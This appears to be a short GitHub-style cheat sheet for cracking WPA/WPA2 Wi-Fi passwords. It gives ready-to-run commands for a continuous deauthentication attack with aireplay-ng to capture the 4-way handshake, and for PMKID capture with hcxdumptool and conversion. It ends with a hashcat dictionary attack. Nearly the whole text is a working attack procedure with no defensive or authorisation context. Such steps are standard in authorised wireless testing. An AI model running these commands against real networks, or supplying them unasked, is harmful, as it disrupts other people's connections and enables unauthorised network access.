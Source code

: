 # WPA/WPA2 PSK Auth

You need to capture a 4-way WPA/WPA2 auth handshake, likely using a deauth attack. You will need to install `airmon-ng`, `airodump-ng`, and `aireplay-ng`.

First off create a monitoring interface for wlan0:

* `airmon-ng start wlan0`

Second capture packets to file from channel 11

* `airodump-ng mon0 --write capture.pcap -c 11`

Third deauth attack against BSSID bb:bb:bb:bb:bb:bb

* `aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0`

Fourth: wait some time

Fifth: convert hashes, you should use `baking.sh`


# WPA2 PKMID 

Doesn't require you to capture the 4-way handshake, you will want to download the following:

* https://github.com/ZerBea/hcxtools.git
* https://github.com/ZerBea/hcxdumptool


First start listening for broadcasting access points ot locate the BSSID you want to target

* `airodump-ng <interface>`

Second place target BSSID into a fil, and start hcxdumptool to capture the PKMID

* `hcxdumptool -i <interface> --filterlist_ap=bssid_file.txt --filtermode=2 --enable_status=2 -o pmkid.pcap`

Third with the BSSID PKMID captured, extract into hashcat format for cracking

* `hcxpcaptool -z wpa2_pmkid_hash.txt pmkid.pcap`

Fourth start flicking your wrists

* `hashcat -a 0 -m 16800 -w 4 wpa2_pmkid_hash.txt dict.txt`